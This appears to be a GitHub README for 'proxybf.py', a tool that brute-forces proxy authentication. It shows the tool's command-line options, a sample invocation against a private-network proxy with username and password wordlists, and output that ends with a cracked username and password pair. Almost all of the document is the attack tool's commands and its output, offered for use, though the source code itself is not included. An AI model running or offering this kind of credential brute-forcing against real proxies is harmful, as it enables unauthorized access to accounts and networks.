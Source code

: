 # proxy-brute-force -Simple Proxy Auth Brute Forcer.



## Usage:

proxybf.py - It's a Simple Proxy Authentication Brute forcer. 

root@zakan:~ # python proxybf.py --help 

Usage: 
  proxybf.py [ -i Proxy IP ] [ -p Proxy port ] [ -c CODE ][ -U Usernames File ] [ -P Passwords File ]


Options:

  --version       show program's version number and exit

  -h, --help      show this help message and exit

  -i HOST         Ip/Hostname of the proxy to brute force.

  -p PORT         Port of the proxy (default: 3128).

  -c CODE         HTTP Code for Proxy Authentication Required (default: 407).

  -U UFILE        Usernames Dictionary.

  -P PFILE        Passwords Dictionary.


## Example:

root@zakan:~ # python proxybf.py -i 192.168.101.8 -p 3128 -U users.lst  -P password.lst


[*] Starting brute forcing.

[*] Checking for Proxy authentication.

[-] Proxy is protected by authentication, by returning 407 code !

[*] Brute forcing the Proxy.

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 123456

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 12345

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = password

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = password1

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 123456789

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 12345678

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 1234567890

...

[+] SUCCESS : Proxy = 192.168.101.8:3128, Status Code = 403, User = b.muncy, Passwd = rabbit

[+] Username/Password pair is found : [ User = b.muncy, Passwd = rabbit ] 

[*] End.


## Remark:

Ensure that usernames and passwords haven't ":".

